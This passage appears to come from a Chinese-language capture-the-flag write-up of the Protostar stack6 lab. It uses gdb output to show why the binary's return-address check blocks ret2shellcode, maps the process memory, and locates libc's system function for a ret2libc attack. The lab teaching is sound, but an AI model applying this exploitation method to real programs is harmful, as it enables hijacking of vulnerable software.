 {% endcode %}

有一个`getpath`的函数，里面通过`__builtin_return_address(0)`返回当前函数的返回地址。我们可以下个断点查看一下**ret的值**，这里输入的是一个输入，没有进行溢出。可以看到**ret的值**是`call   0x8048484 <getpath>`下一条指令的地址。

```javascript
(gdb) p/x $eax
$9 = 0x8048505
(gdb) p getpath
$10 = {void (void)} 0x8048484 <getpath>
(gdb) disass main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   ebp
0x080484fb <main+1>:	mov    ebp,esp
0x080484fd <main+3>:	and    esp,0xfffffff0
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    esp,ebp
0x08048507 <main+13>:	pop    ebp
0x08048508 <main+14>:	ret
End of assembler dump.
```

然后进行**位与**操作，也就是说你这个**返回地址不能是0xbf000000开头的**，可以查看一下地址映射关系，发现`0xbf`开头的地址，**实际上就是栈的地址**。也就是说我们不能通过`ret2shellcode`的方式，在栈中写入`shellcode`，然后跳转到栈中`shellcode`的方式。

```javascript
(gdb) info proc map
process 1878
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fde000 0xb7fe2000     0x4000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
```

可以尝试`ret2libc`的方式，查找一下有没有**system函数**，通过gdb查看**system的地址**。libc包含字符串“ / bin / sh”，但我们不知道它的位置。我们可以使用工具`strings`来查找距文件开头的偏移量。

```javascript
(gdb) p system
$11 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```
